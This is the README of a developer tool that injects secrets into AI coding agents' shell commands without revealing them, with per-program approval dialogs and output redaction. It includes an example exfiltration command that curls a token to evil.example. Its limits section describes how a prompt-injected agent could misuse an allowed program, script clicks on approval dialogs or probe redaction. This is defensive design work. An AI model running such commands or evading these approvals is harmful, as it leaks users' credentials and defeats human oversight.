

<p align="center"></p>

# secretsquirrel (agent-vault)

Lets Claude Code and Cursor agents use passwords and API keys **without seeing them**.
The agent names environment variables (`GITHUB_TOKEN`); you approve the exact command in a native popup; the value comes from your existing password store and is injected into that one process. Nothing is stored by agent-vault itself.

## Install in one line

Paste this into Claude Code or Cursor:

```text
Set up secretsquirrel so you never need my passwords in chat: ask me which password store and which agents (Claude Code, Cursor) I want, then run `npx -y secretsquirrel init --store <store> --agents <list> --yes`, and tell me to restart you.
```

Or run it yourself (interactive: it shows each store with how many entries it already holds, and asks which agents to wire up):

```bash
npx secretsquirrel init
npx secretsquirrel uninstall   # restores every config file it touched
```

## How it works

The agent never calls a special tool to use a secret. It writes an ordinary shell command and names the **environment variable**:

```bash
curl -H "Authorization: Bearer $GITHUB_TOKEN" https://api.github.com/user   # $NAME in the command
GITHUB_TOKEN=@vault gh api user                                              # tools that read the variable themselves
```

A hook on the agent's Bash tool sees that the command uses a stored secret and rewrites it to run through `secretsquirrel exec`. That process fetches the value from your password store, injects it into this one command, scrubs it from the output, and returns the real exit code. The agent only ever sees `[REDACTED]`.

**You are asked once per secret and program, not every time.** The first time `gh` wants `GITHUB_TOKEN`:

<p align="center"></p>

After **Always allow**, `gh` uses `GITHUB_TOKEN` silently. A different program (say `curl`) asking for the same secret asks again, which is what stops an injected `curl evil.example -d $GITHUB_TOKEN`. Commands with substitutions, redirects or functions are too hard to vet, so they can only be allowed once. See and reset grants with `secretsquirrel grants` and `secretsquirrel grants --revoke [NAME]`.

If the secret is not stored yet, the agent just uses its name and you get a private entry box (the agent's suggested name comes pre-filled, and your existing keys are listed to pick from):

<p align="center">
  
  &nbsp;
  
</p>

**Wrong secret?** If a run looks like a failed login, the agent can ask to replace it, but only you decide. A local page shows what failed and stays locked until you type a 6-digit code from a separate native dialog:

<p align="center"></p>

Then you compare old and new values side by side (hidden until you reveal them). The agent only learns "updated", "declined" or "cancelled":

<p align="center"></p>

_Screenshots use dummy values._

macOS only for now (native dialogs use `osascript`). Node 20+.

## Stores
macOS Keychain, 1Password (`op`), Bitwarden (`bw`/`bws`), `pass`/`gopass`. `init` shows how many entries each already holds.

## What gets installed
| Piece | Purpose |
|---|---|
| Bash hook (Claude Code `PreToolUse`) | Injects secrets by env var name; blocks `echo $TOKEN`, env dumps and direct password-store reads; fails closed |
| MCP tools `list_secrets`, `request_secret`, `update_secret` | Names only, store a secret privately, replace a wrong one |
| MCP tool `run_with_secrets` | Fallback for agents without the rewrite hook (Cursor): approval popup per command |
| Skill | Teaches the agent the flow above |

## Config (`~/.config/agent-vault/config.json`)
```json
{ "defaultBackend": "1password",
  "allow": { "GITHUB_TOKEN": ["gh", "git"], "AWS_*": ["aws"] } }
```
`allow` is a hard limit on which programs may ever receive a secret, even if you click Always allow. Grants and the names cache live next to it (`grants.json`, `names.json`). `approvalTtlMinutes` controls how long the fallback `run_with_secrets` remembers an identical approved command (default 10, 0 disables).

## Limits: read these
- **Your click is the control.** An allowed program can still send its secret anywhere. The hook, grants and allowlist narrow the easy routes with text matching; they are not a sandbox. Programs like `git` can run code through their own config.
- **Always-allow is per program, not per host.** `curl` allowed for one API can be pointed at another host by a prompt-injected agent. Use `allow` or "Allow once" for general-purpose tools.
- **The hook auto-approves what it rewrites.** After a grant, Claude Code does not show its own permission prompt for that command, because the hook answers "allow". Your deny rules in settings still apply.
- **Injected commands run to completion first.** Output arrives when the command ends (it must be scrubbed), and background processes holding a secret are killed when it finishes.
- **Keychain does not isolate other processes.** Items are readable by `security` without a prompt, so anything running as you can read them. Prefer 1Password or Bitwarden, which require their own unlock.
- **Accessibility permission** granted to your terminal lets an agent script clicks on the dialogs. The hook blocks obvious `osascript`/`cliclick` use but can be bypassed.
- **Redaction is best effort.** It handles plain, JSON, URL, hex, base64 forms and withholds output on spaced/reversed/case-swapped leaks, but cannot catch arbitrary transforms or yes/no probing.
- **A secret pasted in chat** is already exposed; rotate it.
- **Cursor:** its hook cannot rewrite commands (as far as its docs show), so Cursor gets the guard hook plus the `run_with_secrets` tool, with an approval popup per command. Cursor itself, and real 1Password/Bitwarden/`bws`, were not verified; they were tested against stubs. The Claude Code hook path was verified end to end with a real Claude Code run.
- Every action is logged (names and outcomes, never values) to `~/.config/agent-vault/audit.log`.

## Development
`npm run build && npm test`. Set `AGENT_VAULT_DIR`, `AGENT_VAULT_CONFIG` / `AGENT_VAULT_AUDIT` to redirect state.
